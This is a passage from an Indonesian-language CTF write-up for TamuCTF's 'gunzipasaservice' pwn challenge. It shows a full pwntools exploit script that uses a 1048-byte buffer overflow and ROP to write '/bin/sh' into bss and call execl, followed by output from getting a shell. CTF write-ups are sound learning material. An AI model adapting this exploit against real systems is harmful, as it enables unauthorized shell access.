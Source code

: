 Setelah melihat beberapa fungsi dengan command `elfsymbol` pada gdb, kami baru menyadari bahwa binary memiliki fungsi `execl` yang dapat memanggil shell. Namun kendala-nya disini adalah kami tidak tahu dimana letak string **'/bin/sh'** sehingga kami memutuskan untuk meng-inputkan sendiri string tersebut dengan **ROP** yang dapat kita manfaatkan dari bug buffer-overflow.<br>
Langsung saja kami modifikasi script exploit-nya, berikut merupakan script-nya.
```
def exploit2():
    # p = process("./gunzipasaservice")
    p = remote("challenges.tamuctf.com", 4709)
    binary = ELF("./gunzipasaservice")
    bss = 0x0804c044 + 0x100

    payload = ''
    payload += 'A' * 1048
    payload += p32(binary.symbols['read'])
    payload += p32(binary.symbols['main'])
    payload += p32(0)
    payload += p32(bss)
    payload += p32(0x10)

    open("read_binsh", "w+").write(payload)
    os.system("gzip read_binsh")

    read_binsh = open("read_binsh.gz", "rb").read()
    p.send(read_binsh)
    os.system("rm read_binsh.gz")
    p.send("/bin/sh\x00")

    payload = ''
    payload += 'A' * 1048
    payload += p32(binary.plt['execl'])
    payload += 'JUNK'
    payload += p32(bss)
    payload += p32(0)
    payload += p32(0)

    open("payload", "w+").write(payload)
    os.system("gzip payload")

    real_payload = open("payload.gz", "rb").read()
    p.send(real_payload)
    os.system("rm payload.gz")

    p.interactive()

if __name__ == "__main__":
    exploit2()
```
Kali ini di local, kami mendapatkan shell lagi.
```
chao at Yu in [~/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE]  on git:master ✗  bcdc4b3 "update readme"
14:20:15 › python payChristo.py
[+] Starting local process './gunzipasaservice': pid 12862
[*] '/home/chao/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE/gunzipasaservice'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ ls
core              gunzipasaservice.id1  img1.png       rop.gz
flag.txt          gunzipasaservice.id2  payAldo.py       test.gz
```